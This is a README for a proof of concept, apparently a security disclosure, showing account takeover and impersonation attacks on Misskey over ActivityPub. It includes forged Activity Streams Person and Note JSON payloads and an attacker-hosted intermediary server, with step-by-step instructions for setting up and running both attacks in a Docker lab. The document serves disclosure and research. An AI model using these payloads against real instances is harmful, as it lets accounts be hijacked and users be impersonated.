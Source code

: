 ## Misskey PoC

This PoC demonstrates a takeover attack and an impersonation attack against accounts on a remote Misskey instance.

### Environment

The PoC involves two Misskey instances and an HTTP server:

- `victim.poc.example`: A (open-registration) Misskey instance to which a supposed threat actor is going to upload fake Activity Streams documents:
  - `@attacker`: An account registered by the threat actor
  - `@takeoverVictim`: A target account of the takeover attack
  - `@impersonationVictim`: A target account of the impersonation attack
- `observer.poc.example`: A (open-registration) Misskey instance to fetch the fake objects
  - `@attacker`: An account registered by the threat actor
- `attacker.poc.example`: A server controlled by the threat actor to host intermediary Activity Streams documents (this is a simple static HTML server)

The Docker Compose project `docker-compose.yml` sets up these servers for you. Change the working directory to this directory and run the following to start the servers:

```sh
docker-compose up -d
```

### Prepare fake documents

First, execute the following command to get the Activity Streams actor URIs of the victim accounts:

```console
$ curl -K ../assets/curlrc -fH 'Accept: application/activity+json' 'https://victim.poc.example/@takeoverVictim' | jq -r '.id'
https://victim.poc.example/users/deadbeef1
$ curl -K ../assets/curlrc -fH 'Accept: application/activity+json' 'https://victim.poc.example/@impersonationVictim' | jq -r '.id'
https://victim.poc.example/users/deadbeef2
```

Take notes of these URIs as they are used in the next steps.

Next, upload the following fake object files to `@attacker@victim.poc.example`'s Drive and take note of the resulting Drive URLs. Before uploading the files, you need to replace the placeholder actor URIs with the actual ones (e.g. `sed 's/deadbeef1/[actual ID of @takeoverVictim]/g; s/deadbeef2/[actual ID of @impersonationVictim]/g'`).

```json
{
  "@context": [
    "https://www.w3.org/ns/activitystreams",
    "https://w3id.org/security/v1"
  ],
  "id": "https://victim.poc.example/users/deadbeef1",
  "type": "Person",
  "following": "https://victim.poc.example/users/deadbeef1/following",
  "followers": "https://victim.poc.example/users/deadbeef1/followers",
  "inbox": "https://attacker.poc.example/inbox",
  "outbox": "https://victim.poc.example/users/deadbeef1/outbox",
  "preferredUsername": "takeoverVictim",
  "name": "TAKEN OVER",
  "summary": "THE ACCOUNT HAS BEEN TAKEN OVER BY AN ATTACKER",
  "url": "https://victim.poc.example/@takeoverVictim",
  "published": "2015-02-10T15:04:55Z",
  "publicKey": {
    "id": "https://victim.poc.example/users/deadbeef1#main-key",
    "owner": "https://victim.poc.example/users/deadbeef1",
    "publicKeyPem": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAkFqLkysr6pPyXj+O6ykx\nPMLhOe59JxZF1q2dDMWu9nnhHBxkfc0/bmCSrzjRoJrV+THbju1SZ9BXERABzKjy\nA+s561gE/9aPie22VuyCK//RcuIYhiQJ3HlCKa9w4+hLdXq7VwZ0OaZS5M4pLYls\nnD5UkWeSIMixsZS27ywZWUGY7taouuKKVGBPR6o8XcPz20VHZ5LWaGXiFvEO16Ch\n338fAqmcSOCigEL9dS9AguoJnx01028s7BqXvMb+GMer3V+W3uyNzLzHn9uXDiKe\nJ2a/lCRCGaENHXt30y0Zoq/Z4HgLYsyySKPHgNi+/xuKaFMsBGaMhK73lNd5G8TJ\ncwIDAQAB\n-----END PUBLIC KEY-----\n"
  }
}
```

```json
{
  "@context": "https://www.w3.org/ns/activitystreams",
  "id": "https://victim.poc.example/random-placeholder-to-avoid-accidental-id-collision/1",
  "type": "Note",
  "attributedTo": "https://victim.poc.example/users/deadbeef2",
  "content": "THE NOTE WAS MADE BY AN ATTACKER IMPERSONATING @impersonationVictim",
  "published": "2015-02-10T15:04:55Z",
  "to": "https://www.w3.org/ns/activitystreams#Public",
  "cc": "https://victim.poc.example/users/deadbeef2/followers"
}
```

In the subsequent steps, we assume that the documents have been uploaded to the following URLs:

- Fake Person: `https://victim.poc.example/files/deadbeef-badb-adba-dbad-aaaaaaaaaaaa`
- Fake Note: `https://victim.poc.example/files/deadbeef-badb-adba-dbad-000000000000`

`attacker.poc.example` in the Docker Compose project hosts the following intermediary Activity Streams documents, which contain the URIs of the fake Person and fake Note respectively. You need to edit these files to replace the placeholder URIs with the actual ones before performing the PoC.

- `https://attacker.poc.example/objects/notes/falsified-victim-mention.jsonld` ([`../assets/www/attacker.poc.example/objects/notes/falsified-victim-mention.jsonld`])
- `https://attacker.poc.example/objects/notes/fake-note-reply.jsonld` ([`../assets/www/attacker.poc.example/objects/notes/fake-note-reply.jsonld`])

### Fetch the remote objects

Now, we are all set. Let's fetch the fake objects to finally demonstrate the exploit.

Log in as `@attacker@observer.poc.example`, open the Lookup (照会) menu item and enter `https://attacker.poc.example/objects/notes/falsified-victim-mention.jsonld` to the input, which should display a Note mentioning `@takeoverVictim@victim.poc.example`. Follow the mentioned hyperlink, and you should see a user profile saying in CAPITAL LETTERS that the account has been taken over by an attacker, if the takeover attack was successful.

The takeover attack won't work if `observer.poc.example` has fetched the victim actor before. On the other hand, the impersonation attack is always applicable regardless of the Misskey instance's prior knowledge of the victim account. We'll demonstrate that in the following steps.

Open the Lookup menu item and enter `https://victim.poc.example/@impersonationVictim`, which should display the legitimate profile of `@impersonationVictim@victim.poc.example`. The instance should now be aware of the victim account.

Next, open the Lookup menu again and enter `https://attacker.poc.example/objects/notes/fake-note-reply.jsonld` this time. You should see a note replying to another note, which should be displayed as if it's from `@impersonationVictim@victim.poc.example` and be saying in CAPITAL LETTERS that it was made by an attacker impersonating the victim, if the attack was successful.
